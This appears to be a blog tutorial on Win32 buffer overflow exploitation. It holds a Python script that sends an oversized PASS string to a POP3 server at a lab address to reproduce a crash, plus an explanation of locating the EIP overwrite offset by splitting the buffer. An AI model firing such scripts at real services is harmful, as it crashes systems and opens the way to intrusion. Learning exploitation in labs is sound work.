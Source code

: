 ```yaml
---
layout: post
section-type: post
title: Win32 buffer overflow exploitation
category: buffer_overflow
tags: [ 'buffer_overflow', 'tutorials', 'windows' ]
---
```

# Win32 Buffer Overflow Exploitation

## Replicating the Crash

- Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

{% highlight Python %}
#!/usr/bin/python

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = 'A' * 2700
try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
{% endhighlight %}

## Controlling EIP

- Getting control of the EIP register is a crucial step of exploit development.

- For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
- There are two common ways to do this:

### Binary Tree Analysis

- Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
- If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
- We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
- If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
- We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
- Mathematically, this should happen in seven iterations.
